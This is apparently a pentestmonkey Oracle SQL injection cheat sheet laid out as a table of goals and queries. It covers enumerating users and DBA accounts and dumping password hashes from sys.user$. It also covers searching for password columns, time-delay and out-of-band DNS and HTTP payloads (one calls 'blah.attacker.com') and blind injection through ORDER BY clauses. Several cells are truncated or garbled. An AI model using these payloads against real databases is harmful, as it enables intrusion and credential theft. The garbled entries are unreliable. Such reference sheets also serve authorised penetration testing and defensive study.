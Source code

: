 # All credits to pentestmokey
|Description|Command|
|--- |--- |
|Version|SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’; SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’; SELECT version FROM v$instance;|
|Comments|SELECT 1 FROM dual — commen; – NB: SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.|
|Current User|SELECT user FROM dual|
|List Users|SELECT username FROM all_users ORDER BY username; SELECT name FROM sys.user$; — priv|
|List Password Hashes|SELECT name, password, astatus FROM sys.user$ — priv, <= 10g.  astatus tells you if acct is locke; SELECT name,spare4 FROM sys.user$ — priv, 11g|
|Password Cracker|checkpwd will crack the DES-based hashes from Oracle 8, 9 and 10.|
|List Privileges|SELECT * FROM session_privs; — current priv; SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’; — priv, list a user’s priv; SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’; — priv, find users with a particular pri; SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;|
|List DBA Accounts|SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv, list DBAs, DBA roles|
|Current Database|SELECT global_name FROM global_name; SELECT name FROM v$database; SELECT instance_name FROM v$instance; SELECT SYS.DATABASE_NAME FROM DUAL;|
|List Databases|SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)– Also query TNS listener for other databases.  See tnscmd (services | status).|
|List Columns|SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’; SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;|
|List Tables|SELECT table_name FROM all_tables; SELECT owner, table_name FROM all_tables;|
|Find Tables From Column Name|SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’; — NB: table names are upper case|
|Select Nth Row|SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1)|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1) FROM dual; — gets 3rd character, ‘c’|
|Bitwise AND|SELECT bitand(6,2) FROM dual; — returns ; SELECT bitand(6,1) FROM dual; — returns0|
|ASCII Value -> Char|SELECT chr(65) FROM dual; — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) FROM dual; — returns 65|
|Casting|SELECT CAST(1 AS char) FROM dual; SELECT CAST(’1′ AS int) FROM dual;|
|String Concatenation|SELECT ‘A’ || ‘B’ FROM dual; — returns AB|
|If Statement|BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns ; SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2|
|Avoiding Quotes|SELECT chr(65) || chr(66) FROM dual; — returns AB|
|Time Delay|BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELEC; SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — if reverse looks are slo; SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — if forward lookups are slo; SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — if outbound TCP is filtered / slo; – Also see Heavy Queries to create a time delay|
|Make DNS Requests|SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual; SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;|
|Command Execution|Javacan be used to execute commands if it’s installed.ExtProc can sometimes be used too, though it normally failed for me.|
|Local File Access|UTL_FILE can sometimes be used.  Check that the following is non-null; SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;Java can be used to read and write files if it’s installed (it is not available in Oracle Express).|
|Hostname, IP Address|SELECT UTL_INADDR.get_host_name FROM dual; SELECT host_name FROM v$instance; SELECT UTL_INADDR.get_host_address FROM dual; — gets IP addres; SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — gets hostnames|
|Location of DB files|SELECT name FROM V$DATAFILE;|
|Default/System Databases|SYSTE; SYSAUX|
|Get all tablenames in one string|select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables –  when using union based SQLI with only one row|
|Blind SQLI in order by clause|order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end — you must know 2 column names with the same datatype|
